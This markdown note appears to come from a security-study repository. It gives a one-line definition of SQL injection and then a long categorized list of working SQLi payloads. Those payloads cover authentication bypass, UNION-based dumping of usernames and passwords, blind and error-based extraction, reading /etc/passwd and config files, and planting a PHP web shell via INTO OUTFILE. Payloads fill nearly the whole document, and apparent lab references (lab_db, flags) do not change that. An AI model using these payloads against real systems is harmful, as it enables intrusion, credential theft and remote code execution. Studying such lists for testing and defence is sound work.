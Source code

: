 

## What is SQL Injection ? 

- **SQL Injection is a web vulnerability where an attacker ==injects malicious SQL code into an application’s database query via user input== (e.g., a URL parameter, form field, or cookie).**

- *If the app doesn’t sanitize inputs, the injected code can manipulate the query to extract data, bypass authentication, or even execute commands.


## SQL Injection Cheat sheet : 

https://portswigger.net/web-security/sql-injection/cheat-sheet

## List of payloads of SQLi : 


1. **Classic SQLi Payloads : 

	- `1 OR 1=1
	- `1 OR '1'='1
	- `1' OR '1'='1
	- `1" OR "1"="1
	- `1 --
	- `1 #
	- `1/*
	- `1' --
	- `1' #
	- `1'/*
	
2. **Authentication Bypass Payloads :  

	- `admin' OR 1=1 --
	- `admin' OR '1'='1' --
	- `admin' OR 1=1#
	- `admin' OR '1'='1'#
	- `admin' OR 1=1/*
	- `jeremy' OR 1=1#
	- `jeremy' OR '1'='1' --
	- `' OR ''='
	- `' OR '1'='1
	- `admin" OR "1"="1 --
	- `") OR ("1"="1
	- `') OR ('1'='1

3. **UNION-Based Payloads : 

	- `1 UNION SELECT 1,2
	- `1 UNION SELECT 1,2,3
	- `1 UNION SELECT 1,@@version,3
	- `1 UNION SELECT 1,database(),3
	- `1 UNION SELECT 1,schema_name,3 FROM information_schema.schemata
	- `1 UNION SELECT 1,table_name,3 FROM information_schema.tables
	- `1 UNION SELECT 1,table_name,3 FROM information_schema.tables WHERE table_schema='lab_db'
	- `1 UNION SELECT 1,column_name,3 FROM information_schema.columns WHERE table_name='users'
	- `1 UNION SELECT 1,username,password FROM users
	- `1 UNION SELECT 1,flag,3 FROM flags
	- `1 UNION SELECT 1,secret,3 FROM secrets
	- `1 UNION SELECT 1,concat(username,':',password),3 FROM users
	- `1 UNION SELECT 1,2,3 (for invalid IDs)
	- `1 UNION ALL SELECT 1,2,3

4. **Blind Boolean-Based Payloads : 

	- `1 AND 1=1
	- `1 AND 1=2
	- `1 AND (SELECT 1 FROM users WHERE username='admin')=1
	- `1 AND (SELECT 1 FROM users WHERE username='jeremy')=1
	- `1 AND (SELECT count(*) FROM users)>0
	- `1 AND (SELECT length(database()))=7
	- `1 AND ascii(substring((SELECT database()),1,1))=108 (extracts l from lab_db)

5. **File Operation Payloads (MySQL) : 

	- `1 UNION SELECT 1,LOAD_FILE('/etc/passwd'),3
	- `1 UNION SELECT 1,LOAD_FILE('/var/www/html/config.php'),3
	- `1 UNION SELECT 1,LOAD_FILE('/var/www/html/flag.txt'),3
	- `1 UNION SELECT 1,'<?php system($_GET["cmd"]); ?>',3 INTO OUTFILE '/var/www/html/shell.php'
	- `1 UNION SELECT 1,@@secure_file_priv,3 (check file access restrictions)

6. **Encoded Payloads (Bypass Filters) : 

	- `1%27%20OR%20%271%27=%271 (' OR '1'='1)
	- `%27%20OR%201=1%23 (' OR 1=1#)
	- `1%20UNION%20SELECT%201%2C@@version%2C3
		-  `1%20AND%20IF%28ascii%28substring%28%28SELECT%20database%28%29%29%2C1%2C1%29%29=108%2CSLEEP%285%29%2C0%29

7. **Miscellaneous Payloads : 

	- `1 ORDER BY 1 (test column count)
	- `1 ORDER BY 2
	- `1 ORDER BY 3
	- `1 UNION SELECT 1,version(),3
	- `1 AND (SELECT 1)=1
	- `1' AND '1'='1
	- `1" AND "1"="1
	- `1 OR true
	- `1 AND false

8. **Error-Based Payloads (MySQL) : 

	- `1 AND extractvalue(1,concat(0x7e,(SELECT @@version)))
	- `1 AND (SELECT 1 FROM (SELECT count(*),concat((SELECT database()),floor(rand(0)*2))x FROM information_schema.tables GROUP BY x)a)
	- `1' AND extractvalue(1,concat(0x7e,(SELECT username FROM users LIMIT 0,1)))#